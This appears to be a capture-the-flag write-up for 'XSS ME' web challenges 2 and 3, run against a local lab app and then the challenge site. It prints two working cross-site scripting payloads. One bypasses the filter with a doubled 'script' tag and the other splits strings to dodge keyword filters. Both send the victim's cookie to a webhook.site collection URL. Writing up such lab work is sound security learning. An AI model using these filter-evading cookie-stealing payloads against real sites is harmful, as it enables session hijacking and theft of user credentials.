

* This returns the cookie as ```xss2=/bf2a73106a3a6328746782b8b47e4bd350e```
* This cookie I attach to the end of the local host url to access XSS ME 2
* Now analysing app.py and XSS ME 2's shown filters, I need to figure out a payload to bypass this
* Now this could be bypassed by taking advantage of the filters and use the string replacement to simply create the same payload
    ```<sscriptcript>fetch('https://webhook.site/7f489ba2-1a7c-4128-a4bc-bd5a2a7908cc?c='+document.cookie)</sscriptcript>```
    * So this deletes the "script" in the both opening and closing element to simply leave script in both elements



* I attach it to the end of The website will be accessible at http://localhost:56743 and access XSS ME 3
* Now XSS ME 3 has even more stricter filter
* After doing some research and looking for elements in JS that can pass these filters I formed the following Injection:
```<body onload="location='//webhook.site/7f489ba2-1a7c-4128-a4bc-bd5a2a7908cc?c='+window['doc'+'ument']['coo'+'kie']"></body>```
* Using this I checked the infiltrated data on webhook and got the local flag as a cookie named flag.



* I did the same on the given website and got the final flag



## Notes
* Although I solved this challenge the way it was intended to, for XSS ME 1 and 2, I didn't need to use the XSS Injections and bypass the filter to intercept the cookies in webhook to find them, they were already present in app.py so I could've directly entered XSS ME 3 and found a XSS Injection for it to find the flag in one go.  


## Concepts Learnt
* How to use XSS Injections and attack
* How to use webhook to recieve HTTPS requests 

